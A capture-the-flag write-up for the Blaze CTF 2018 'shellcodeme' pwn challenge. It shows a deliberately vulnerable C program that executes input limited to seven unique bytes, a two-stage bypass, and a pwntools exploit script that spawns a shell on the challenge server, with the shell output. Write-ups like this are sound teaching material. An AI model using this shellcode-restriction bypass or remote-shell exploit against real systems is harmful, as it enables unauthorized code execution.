


[](ctf=blaze-2018)
[](type=exploit)
[](tags=game)
[](techniques=shellcode)

# shellcodeme (pwn-420)

```
Can you please smoke this?

nc shellcodeme.420blaze.in 420

Author : aweinstock

Solves : ~60
```

This challenge had a hard version too. The way I exploited this chall worked in the hard one too. So 2 flags for the work of one.
Source code was provided.

```c
// gcc -zexecstack -Os shellcodeme.c -o shellcodeme
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

#define BUF_SIZE (0x4096 & ~(getpagesize()-1))

int main() {
    setbuf(stdout, NULL);
    unsigned char seen[257], *p, *buf;
    void (*f)(void);
    memset(seen, 0, sizeof seen);
    buf = mmap(0, BUF_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    puts("Shellcode?");
    fgets(buf, BUF_SIZE, stdin);
    fflush(stdin);
    for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
    if(seen[256] > 7) {
        puts("Shellcode too diverse.");
        _exit(1);
    } else {
        *(void**)(&f) = (void*)buf;
        f();
        _exit(0);
    }
}
```


4 rwx pages are mmaped on which we can copy our input(0x4000). The only catch is the shellcode can't contain more than 7 unique bytes.

```c
for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
```

This code iterates through each input byte and sums up the number of unique bytes in the shellcode. The `seen` table is very important for my strategy of exploitation.



At `0x40072d` the control is transferred to rbp using a `call`. I first tried to look at the context on that state and then use the registers to make a read `syscall` on an rwx page in the libc. However with the restriction in place I could not successfully jump to the page.

The next thought I had was to restart the execution of main such that we can bypass the check in place.



As I noticed that `memset` operation is done on `0x400699`, once the `seen` table has initialized we can skip doing it again in the second run. Jumping to anywhere after the memset operation should work. If we are able to corrupt the 256 byte count table in a way that unique count calculated is in our control then that would let us run arbirary code in the next run. So in the first run we can execute 'push' to setup the stack in such a way that seen[256] is overflowed back to < 7 in the next run.

Here's how I did it in 7 unique bytes:

* `pop` the saved rip from the stack to a register(rbx) (+1 unique byte)
* `dec` the 32bit variant of that register to make it 0x4006d2  (+2 unique bytes)
* spray the stack by `push`ing the register to setup an already filled `seen`  (+1 unique bytes)
* `inc rsp` to align `seen[256]` with 0xd2. will overflow this in the next run  (+2 unique bytes)
* `ret` to get input again to the same page  (+1 unique bytes)
* input a shellcode such that seen[256] is overflowed back to 0


```
from pwn import *

context(arch='amd64', os='linux', log_level='info')

payload = asm("pop rbx; "+("dec rbx; "*(0x72f-0x6d2))+("push rbx; "*64)+"inc rsp; jmp rbx")
payload2 = asm(shellcraft.amd64.linux.sh())+"".join(map(chr, range(100,157)))

s = remote("shellcodeme.420blaze.in",420)
raw_input()

s.sendline(payload)
s.sendline(payload2)

s.interactive()
s.close()
```


Output
```bash
$ python shellcodeme.py 
[+] Opening connection to shellcodeme.420blaze.in on port 420: Done

[*] Switching to interactive mode
Shellcode?
$ id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
$ cat flag
blaze{g0lf3d_y0ur_sh3llc0d3's_un1qu3_byt3z}
$ 
[*] Closed connection to shellcodeme.420blaze.in port 420
```
